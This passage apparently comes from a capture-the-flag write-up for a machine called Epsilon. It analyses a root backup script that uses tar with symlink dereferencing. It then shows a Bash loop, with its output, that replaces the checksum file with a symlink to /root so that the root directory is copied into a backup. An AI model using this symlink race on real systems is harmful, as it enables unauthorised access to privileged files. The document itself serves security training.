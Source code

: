 `date +%N` returns the nanosecond porton of the current time. This effectively gives a random number.

The script:
- Removes all files and folders in `/opt/backups`.
- Creates a Tar archive called `/opt/backups/[date str].tar` with the contents of `/var/www/app`.
- Creates `/opt/backups/checksum` which contains the SHA1 hash of the new `.tar` file.
- Sleeps for five seconds
- Create a new Tar archive in `/var/backups/web_backups` containing the first archive and the checksum file.
- Remove all files and folders from `/opt/backups`.

The second `tar` command adds `-h` to the parameters. From the [man page](https://man7.org/linux/man-pages/man1/tar.1.html):

> ```

> -h, --dereference
> 	Follow symlinks; archive and dump the files they point to.
>
> ```

### Exploit

To exploit this, I’m going to use a Bash loop to watch for the `checksum` file, and replace it with a symbolic link to `/root`:

```

while :; do 
	if test -f checksum; then 
		rm -f checksum; 
		ln -s /root checksum; 
		echo "Replaced checksum"; 
		sleep 5; 
		echo "Backup probably done now";
		break;
	fi; 
	sleep 1; 
done

```

This will loop ever second, each time checking for the existence of `checksum` in the current directory. When it does exist, it will remove it, and replace it with a symbolic link. Then it prints, sleeps, and prints again, and exits the loop. I’ll run this on Epsilon:

```

tom@epsilon:/opt/backups$ while :; do if test -f checksum; then rm -f checksum; ln -s /root checksum; echo "Replaced checksum"; sleep 5; echo "Backup probably done now"; break; fi; sleep 1; done
Replaced checksum
Backup probably done now

```
